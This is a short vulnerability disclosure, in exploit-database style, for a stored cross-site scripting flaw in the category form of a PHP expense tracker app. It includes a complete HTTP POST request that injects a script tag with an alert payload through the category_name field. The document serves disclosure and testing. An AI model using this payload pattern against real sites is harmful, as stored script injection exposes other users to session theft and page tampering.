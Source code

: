 # Simple expense tracker app

# Exploit Title:
XSS  Stored  (Expense Tracker App Using PHP with Source Code)
# Date:
23/09/2023
# Exploit Author:

Xcode0x (Mohamed Almarri)

Twitter: @xcode0x

# Vendor Homepage:
[https://www.sourcecodester.com/users/remyandrade]()
# Software Link:
https://www.sourcecodester.com/php/16794/simple-expense-tracker-app-using-php-source-code.html
# Version:
v1
# Tested on:
debian

----
# XSS Stored :

> Expense Tracker App v1 is vulnerable to Cross Site Scripting (XSS) via add category .

# POC [debian]:

1- add  category 

2- in category_name put your payload 

POST /simple-expense-tracker-app/endpoint/add_category.php HTTP/1.1

Host:  localhost

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://localhost/simple-expense-tracker-app/

Content-Type: application/x-www-form-urlencoded

Content-Length: 84

Origin: http://localhost

Connection: close

Upgrade-Insecure-Requests: 1



tbl_expense_category_id=&category_name=<script>alert('By:Xcode0x')</script>&category_budget=1

![Drag Racing](https://github.com/xcodeOn1/XSS-Stored-Expense-Tracker-App/blob/main/xss_stored.png)


 # Tested  

 Linux - debian
